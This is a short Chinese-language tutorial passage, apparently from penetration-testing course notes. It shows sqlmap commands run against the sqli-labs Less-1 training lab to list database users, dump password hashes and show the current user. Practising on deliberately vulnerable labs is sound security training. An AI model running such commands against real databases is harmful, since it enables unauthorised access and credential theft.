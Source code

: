 ### 5.3.2.**案例**sql-labs-less-1 其他注入

#### 5.3.2.1.**获取数据库下所有用户**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -users   

![img](assets/Y4vzpE1ysAtKQNM.jpg) 

#### 5.3.2.2.**获取数据库下密码**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -passwords

![img](assets/diZwzJhqNpmE1Kr.jpg) 

#### 5.3.2.3.**查看数据库当前用户**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -current-user

![img](assets/x3rSweULfgRXakZ-1690285087269-106.jpg) 